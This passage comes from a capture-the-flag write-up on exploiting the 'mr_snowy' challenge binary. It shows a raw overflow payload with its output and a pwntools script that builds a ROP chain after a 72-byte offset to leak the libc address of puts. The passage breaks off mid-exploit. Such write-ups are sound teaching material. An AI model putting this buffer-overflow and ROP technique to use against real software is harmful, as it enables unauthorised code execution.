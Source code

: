 ```python
[!] After some investigation, you found a secret camera inside the snowman!                                      
                                                                                                                 
1. Deactivate ⚠                                                                                                  
2. Break it   🔨                                                                                                 
>                                                                                                                
b'AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA\xc3\x15@\x00\x00\x00\x00\x00X\x1f`\x00\x00\x00\x00\x00\xa0\x08@\x00\x00\x00\x00\x00>\x15@\x00\x00\x00\x00\x00'                                         
                                                                                                                 
                                                                                                                 
[-] Mission failed!
```

This part drives me insane, it only gives 1 output which is `[-] Mission failed!`. When I checked at the ida again, turns out the program will print `\x1B[1;31m` that I missed :').

![](img/mr_snowy-printJunk.png)

Now, we know that we need to receive that junk and 2 more lines. So let's rewrite the program!

```python
from pwn import *

offset = 72
pop_rdi = 0x00000000004015c3
ret = 0x000000000040087e

elf = ELF("./mr_snowy")
s = elf.process()

puts_plt = elf.symbols["puts"]
main_plt = elf.symbols["main"]

puts_got = elf.got["puts"]
rop = [
	pop_rdi,
	puts_got,
	puts_plt,
	main_plt
]

rop = b"".join([p64(i) for i in rop])
payload = b"A"*offset + rop

# to run the libc leak address
print(s.recvuntil(b"> ").decode())
```

[Location]: 🎅 Santa's garden..                                                                                  
[Location]: 🎅 Santa's garden..                                                                                  